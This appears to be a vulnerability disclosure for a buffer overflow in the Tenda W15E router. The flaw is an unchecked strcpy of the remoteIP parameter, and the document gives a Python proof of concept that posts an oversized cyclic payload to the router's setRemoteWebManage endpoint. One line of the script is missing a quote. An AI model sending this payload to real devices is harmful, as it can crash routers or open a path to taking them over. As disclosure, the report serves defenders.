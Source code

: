 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x00098F2C. IndexSet gets the content of remoteIP and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 
![image](https://github.com/sezangel/IOT-vul/assets/89381625/25bc9ec1-e0cf-40b2-adcc-2fe2461b980b)

![image](https://github.com/sezangel/IOT-vul/assets/89381625/ddb5fe6c-576f-4ada-b92c-aebe85340472)

POC:

```python
import requests
from pwn import *

url='http://192.168.100.2/goform/setRemoteWebManage'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 =enable=true&remotetype=test&remoteWan=0000&remotePort=1000&remoteIP=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```

![4037c1d83179189e70ce67660f70f17](https://github.com/user-attachments/assets/270cb2cc-c04d-4100-988b-80cdff1ca6a0)


